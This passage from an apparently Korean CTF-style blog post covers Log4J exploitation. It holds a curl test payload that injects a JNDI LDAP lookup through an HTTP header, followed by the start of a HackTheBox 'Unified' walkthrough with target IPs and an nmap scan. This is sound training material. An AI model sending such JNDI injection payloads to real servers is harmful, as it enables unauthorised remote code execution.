 ### Test Exploit Payload

위의 취약한 코드를 exploit할 때 사용할 수 있는 Test 코드다.

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1/a}'
```

## Real World Case Study

HackTheBox에 Unified 문제가 실제 Log4J로 인한 취약점으로 발생한 Real World Case다.

- Target IP : 10.129.96.149
- Attacker IP : 10.10.14.108

먼저 nmap을 통해 어떤 포트들이 열려있는지 대상을 Scanning한다.

```
$ sudo nmap -sV 10.129.96.149
```

![Untitled](/assets/img/20220903_5/Untitled%208.png)

nmap을 통해 22, 6789, 8080, 8443포트가 열려있는 것을 확인 할 수 있다. 특이한 점은 8443은 ssl을 사용하고 있는 것인데, 요기에 접속해보면 아래와 같은 화면이 뜬다.

![https://10.129.96.149:8443](/assets/img/20220903_5/Untitled%209.png)
